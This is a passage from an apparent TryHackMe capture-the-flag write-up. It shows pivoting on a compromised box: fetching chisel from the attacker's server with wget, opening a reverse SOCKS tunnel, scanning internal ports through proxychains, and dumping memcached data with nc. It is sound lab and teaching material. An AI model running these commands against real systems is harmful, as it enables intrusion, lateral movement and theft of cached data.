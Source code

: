 In the above `netstat` command, we can see that **port 11211 and 3010 is opened at localhost**, which is very weird.

**We can use `chisel` to do dynamic port forwarding to determine what services are they running:**
```
┌──(root🌸siunam)-[/opt/chisel]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

www-data@osboxes:/$ wget http://10.18.61.134/chiselx86 -O /tmp/chisel;chmod +x /tmp/chisel
```

**Dynamic port forwarding:**
```
┌──(root🌸siunam)-[/opt/chisel]
└─# ./chiselx64 server -p 8888 --reverse

www-data@osboxes:/$ /tmp/chisel client 10.18.61.134:8888 R:socks
```

**Using `nmap` to scan those ports with `proxychains`:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Wekor]
└─# proxychains nmap -sT -sC -sV -T4 -p3010,11211 127.0.0.1
[...]
PORT      STATE SERVICE   VERSION
3010/tcp  open  gw?
11211/tcp open  memcached Memcached 1.4.25 (uptime 2855 seconds; Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Hmm... **Memcached**??

> Memcached is a general-purpose distributed memory-caching system. It is often used to speed up dynamic database-driven websites by caching data and objects in RAM to reduce the number of times an external data source must be read. (Source: [Wikipedia](https://en.wikipedia.org/wiki/Memcached))

**According to [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/11211-memcache#manual), we can do some enumeration to Memcache on port 11211!**

To exfiltrate all the information saved inside a memcache instance you need to:

1. Find **slabs** with **active items**
2. Get the **key names** of the slabs detected before
3. Exfiltrate the **saved data** by **getting the key names**

Remember that this service is just a **cache**, so **data may be appearing and disappearing**.

```
echo "version" | nc -vn -w 1 127.0.0.1 11211      #Get version
echo "stats" | nc -vn -w 1 127.0.0.1 11211        #Get status
echo "stats slabs" | nc -vn -w 1 127.0.0.1 11211  #Get slabs
echo "stats items" | nc -vn -w 1 127.0.0.1 11211  #Get items of slabs with info
echo "stats cachedump <number> 0" | nc -vn -w 1 <IP> 11211  #Get key names (the 0 is for unlimited output size)
echo "get <item_name>" | nc -vn -w 1 127.0.0.1 11211  #Get saved info
```
